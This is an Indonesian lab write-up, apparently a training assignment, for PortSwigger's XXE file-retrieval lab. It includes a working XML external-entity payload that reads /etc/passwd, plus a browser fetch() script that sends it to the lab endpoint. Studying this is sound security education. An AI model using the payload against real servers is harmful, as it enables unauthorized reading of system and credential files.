 # **4. Exploiting XXE using External Entities to Retrieve Files**

## **4.1 [Soal]**
Eksploitasi **XML External Entity (XXE)** untuk membaca file pada server aplikasi PortSwigger Web Security Academy.

## **4.2 [Link resource untuk latihan]**
`https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files`

## **4.3 [Jawaban + Bukti]**
- **Step-by-step yang sudah dicoba:**
  1. Buka lab PortSwigger di browser melalui link di atas.  
  2. Akses endpoint **XML POST**, misalnya `/product/stock`.  
  3. Siapkan payload XXE untuk membaca file `/etc/passwd`:  
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE stockCheck [
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <stockCheck>
         <productId>1</productId>
         <storeId>&xxe;</storeId>
     </stockCheck>
     ```
  4. Kirim payload menggunakan **console browser** dengan `fetch()`:  
     ```javascript
     const url = "https://0a80001a0325b26880cd4454009d008f.web-security-academy.net/product/stock";

     const xmlPayload = `<?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE stockCheck [
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <stockCheck>
         <productId>1</productId>
         <storeId>&xxe;</storeId>
     </stockCheck>`;

     fetch(url, {
         method: "POST",
         headers: { "Content-Type": "application/xml" },
         body: xmlPayload
     })
     .then(response => response.text())
     .then(data => console.log(data))
     .catch(err => console.error(err));
     ```
     Hasilnya **console menampilkan isi file `/etc/passwd`**, membuktikan server rentan terhadap XXE.

- **Screenshot terminal/browser:**  
<img width="1920" height="1020" alt="Screenshot 2025-09-10 233637" src="https://github.com/user-attachments/assets/17376c2b-3497-448d-ace1-8ccfd0df03d5" />
<img width="1920" height="1020" alt="Screenshot 2025-09-10 234320" src="https://github.com/user-attachments/assets/8fcdd9f4-bbe5-4355-a233-7372aee60011" />


- **Catatan hasil percobaan:**
  1. **Hasil:** Berhasil membaca file `/etc/passwd`.  
  2. **Alasan:** Mendefinisikan entity eksternal:

     ```xml
     <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ```

     lalu memanggilnya di `<storeId>&xxe;</storeId>`. Server mengekspansi entity menjadi isi file.  
  3. **Refleksi:** XXE sangat berbahaya karena input XML user bisa dieksploitasi untuk membaca file lokal → berpotensi menimbulkan **kebocoran informasi sensitif**.
